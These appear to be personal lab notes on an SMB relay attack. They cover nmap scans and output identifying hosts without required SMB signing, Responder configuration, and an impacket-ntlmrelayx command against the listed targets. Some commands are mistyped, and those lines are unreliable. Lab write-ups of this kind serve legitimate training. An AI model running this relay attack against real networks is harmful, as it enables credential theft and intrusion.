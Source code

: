 #smbrelayattack
#smbsigningdisabled
## SMB Relay Attacks Lab

1. Identify the host without SMB signing enabled
Command: `nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not`

`-Pn` - Treats all hosts as online, skipping host discovery. This is useful if you know the host is up but it isn't responding to ICMP echo requests (ping).


Here is the result

- For the domain controller, we cannot take advantage and use the SMb relay attack because **Message signing is enabled and required** 

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.250 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.250
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 16:91:DE:D1:61:68 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

- For the two domain computers joined to the Domain controller (192.168.64.220 and 192.168.64.221) an SMb relay attack can be executed because **Message signing is enabled but not required**. Please see below

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.220 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.220
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 4E:4F:0D:0B:16:40 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.221 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 17:00 PDT
Nmap scan report for 192.168.64.221
Host is up (0.0074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 8E:27:0F:FF:34:D1 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
 
```


2. After we identified the targets, put it in text file targets.txt

![[Pasted image 20240714202517.png]]

3. Change the responder configuration file to **SMB=OFF and HTTP=OFF**
`sudo mousepad /etc/responder/Responder.conf`

![[Pasted image 20240714202746.png]]

Check if they are off by running the command `sudo responder -I eth0 -dwPv`

4. Setup ntlmrelayx while the responder is running

	- If you have pimpmykali installed, just use ntmrelay
	- If you haven't pimpmykali, you can use the impacket-ntmlrelayx - newer version but not sure if it will work

![[Pasted image 20240714210446.png]]

```
impacket-ntlmrelayx -tf targets.txt smb2support
```

Execute the smb


![[Pasted image 20240714210802.png]]

We cant access but we caputured the logs in kali

![[Pasted image 20240714210939.png]]